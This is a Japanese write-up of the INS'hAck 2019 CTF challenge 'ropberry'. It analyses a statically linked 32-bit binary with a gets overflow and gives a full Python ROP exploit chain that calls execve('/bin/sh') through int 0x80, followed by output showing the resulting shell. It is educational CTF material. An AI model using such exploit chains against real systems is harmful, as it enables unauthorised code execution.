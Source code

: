 # [pwn 50pts] ropberry - INS'hAck 2019
32ビットでDEPは有効です。
```
$ checksec -f ropberry
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   2076 Symbols     Yes	4		52	ropberry
```

static linkですがnot strippedなので許す。
IDAで解析しましょう。
内容はgimme your shellと同じで、vuln関数の中でgetsを使っています。
static linkだからROP gadgetがいっぱいあるよ、ということでしょうか。

ROPでexecveしましょう。
残念ながら`/bin/sh`という文字列はバイナリ中になかったのでgetsで用意します。

```python
from ptrlib import *

sock = Process("./ropberry")

addr_gets = 0x08049af0
ptr_sh = 0x80ed000
rop_pop_eax = 0x080c1906
rop_pop_ebx = 0x080481ec
rop_pop_ecx = 0x080e394a
rop_pop_edx = 0x0805957a
rop_int80 = 0x08059d70

payload = b'A' * 0x8
payload += p32(addr_gets)
payload += p32(rop_pop_eax)
payload += p32(ptr_sh)
payload += p32(rop_pop_eax)
payload += p32(11)
payload += p32(rop_pop_ebx)
payload += p32(ptr_sh)
payload += p32(rop_pop_ecx)
payload += p32(0)
payload += p32(rop_pop_edx)
payload += p32(0)
payload += p32(rop_int80)

sock.recvuntil("president.\n")
sock.sendline(payload)

sock.sendline("/bin/sh\x00")

sock.interactive()
```

おしまい。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=17574)
[ptrlib]$ id    
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
```

# 感想
x86のROPが久しぶりすぎてうっかりediを第一引数にしようとしてしまった。